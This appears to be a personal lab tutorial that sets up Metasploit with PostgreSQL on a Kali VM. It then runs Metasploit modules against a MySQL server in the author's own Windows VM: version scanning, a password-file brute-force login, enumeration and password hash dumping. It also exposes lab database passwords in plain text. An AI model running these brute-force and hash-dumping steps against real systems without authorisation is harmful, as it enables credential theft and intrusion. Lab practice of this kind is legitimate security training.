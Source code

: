 # Section 1: 

## In Kali VM: 

- Start PostgreSQL:
  ```bash
  sudo /etc/init.d/postgresql start
  ```
  - Reinstall PostgreSQL if necessary (due to missing database.yml in the directory /usr/share/metasploit-framework/config/database.yml):
    ```bash
    sudo apt install postgresql postgresql
    ```
  - Enable and restart PostgreSQL:
    ```bash
    sudo systemctl enable postgresql
    sudo systemctl restart postgresql
    ```
  - Verify PostgreSQL status:
    ```bash
    sudo systemctl status postgresql
    ```
  - Switch to postgres user and access PostgreSQL:
    ```bash
    sudo su - postgres
    psql -p 5433
    \du   # Check if 'postgres' user exists and is a superuser
    alter user postgres with password 'admin@123';
    \l   # Check for a database named 'postgres'
    
- Start Metasploit
   ```bash
    /etc/init.d/metasploit start # (old method, won't work)
    ```
  - Instead, install Metasploit Framework:
    ```bash
    sudo apt install metasploit-framework
    ```
  -  if **sudo systemctl start metasploit** work do not do the following comands else do this:
      - Verify Metasploit paths:
        ```bash
        which msfconsole
        locate metasploit-framework
        ```
     - Adjust Metasploit service configuration if paths differ:
       ```bash
       sudo nano /etc/systemd/system/metasploit.service
       ```
      <pre>
      ```
      [Unit]
      Description=Metasploit Framework
      After=network.target
      [Service]
      Type=simple
      ExecStart=/usr/local/bin/msfconsole
      User=root
      WorkingDirectory=/usr/local/share/metasploit-framework
      [Install]
      WantedBy=multi-user.target
      ```
      </pre>
  - Now start and check the status of metasploit
    ```bash
    sudo systemctl start metasploit
    sudo systemctl status metasploit
    ```
  - Start Metasploit console and wait for initialization:
    ```bash
    msfconsole
    ```
  - Within the metasploit console run the following:
      - Check database connection status:
        ```bash
        db_status
        ```
      - If not connected, configure database connection:
        ```bash
        db_connect –y /usr/share/metasploit-framework/config/database.yml
        ```
      - If you encounter this error in PostgreSQL configuration:
        ![Local Example](./images/SQL_Injection/cap1.JPG)
         - Do the following :
           ```bash
           sudo nano /etc/postgresql/14/main/postgresql.conf
           ```
            - Uncomment this line :
               ```bash
              # listen_addresses = 'localhost'
               ```
            - Adjust those lines to look like this :
              ```bash
              log_timezone = 'UTC'
              TimeZone = 'UTC'
              ```
            - Also go to this file
              ```bash
              sudo nano /etc/postgresql/14/main/pg_hba.conf
              ```
           - Ensure these lines exist:
             ```bash
             local   all     postgres       peer
             
             local   all     all            peer
             host    all     all            127.0.0.1/32 md5
             ```
           - Restart PostgreSQL:
             ```bash
             sudo systemctl restart postgresql
             ```
           - if there are any other errors try :
             ```bash
             sudo tail -n 50 /var/log/postgresql/postgresql-14-main.log
             ```
      - Update Metasploit database configuration:
        ```bash
        sudo nano /usr/share/metasploit-framework/config/database.yml
        ```
        - Example my configuration:
        <pre>
        development:
          adapter: postgresql
          database: msf6
          username: msf6
          password: RIbJY72yN0T8mPaYaaT96NRF2b/VNXEjEMFqpxRIuhw=
          host: localhost
          port: 5432
          pool: 5
          timeout: 5
        production:
          adapter: postgresql
          database: msf6
          username: msf6
          password: RIbJY72yN0T8mPaYaaT96NRF2b/VNXEjEMFqpxRIuhw=
          host: localhost
          port: 5432
          pool: 5
          timeout: 5
         </pre>
         
      - Create PostgreSQL database and user for Metasploit:
        ```bash
        sudo su - postgres
        psql -p 5433
        CREATE DATABASE msf6;
        CREATE USER msf6 WITH PASSWORD 'RIbJY72yN0T8mPaYaaT96NRF2b/VNXEjEMFqpxRIuhw=';
        GRANT ALL PRIVILEGES ON DATABASE msf6 TO msf6;
        ```
     - Restart PostgreSQL and Metasploit:
       ```bash
       sudo systemctl restart postgresql
       sudo systemctl restart metasploit
     - Reconnect to Metasploit console and continue:
       ```bash
       msfconsole
       db_connect –y /usr/share/metasploit-framework/config/database.yml
       ```
       ![Local Example](./images/SQL_Injection/cap2.JPG)
       
## In Windows Server VM (MySQL Server)
     
Example commands inside Metasploit console:

- Install MySQL server on Windows Server
- Open terminal and connect to MySQL:
  ```bash
  mysql -u root -p
  ```
- Set up MySQL users and permissions: (192.168.43.93 : is the ip @ of my kali VM , and 'mounaMYSQL19' is my SQL server password)
  ```bash
  CREATE USER 'root'@'192.168.43.93' IDENTIFIED BY 'mounaMYSQL19';  
  GRANT ALL PRIVILEGES ON *.* TO 'root'@'192.168.43.93';
  FLUSH PRIVILEGES;

## In Kali VM
  
- inside msf console, execute Metasploit commands: ( 192.168.43.189 is the ip @ of my MYSQL server VM)
- 1- 
  ```bash
  use auxiliary/scanner/mysql/mysql_version
  ```
- inside this console do :
  ```bash
  set RHOSTS 192.168.43.189
  run
  ```
  ![Local Example](./images/SQL_Injection/cap3.JPG)
- 2-
  ```bash
  use auxiliary/scanner/mysql/mysql_login
- inside this console do :
  ```bash
  set RHOSTS 192.168.43.189
  set USERNAME root
  set PASS_FILE /mouna19/passwords.txt
  run
  ```
  this file contains potential passwords
  ![Local Example](./images/SQL_Injection/cap4.JPG)
  ![Local Example](./images/SQL_Injection/cap5.JPG)
- 3-
  ```bash
  use auxiliary/admin/mysql/mysql_enum
  ```
- inside this console do :
  ```bash
  set RHOSTS 192.168.43.189
  set USERNAME root
  set PASSWORD mounaMYSQL19
  run
  ```
  ![Local Example](./images/SQL_Injection/cap6.JPG)
- 4-
  ```bash
  use auxiliary/scanner/mysql/mysql_hashdump
  ```
- inside this console do :
  ```bash
  set RHOSTS 192.168.43.189
  set USERNAME root
  set PASSWORD mounaMYSQL19
  run
  ```
  ![Local Example](./images/SQL_Injection/cap7.JPG)
- Open another terminal window in Kali for MySQL console access:
  ```bash
  mysql -u root -p -h 192.168.43.189
- Enter the password (e.g., mounamySQL19) to access MySQL console.
  ![Local Example](./images/SQL_Injection/cap8.JPG)
  ![Local Example](./images/SQL_Injection/cap9.JPG)
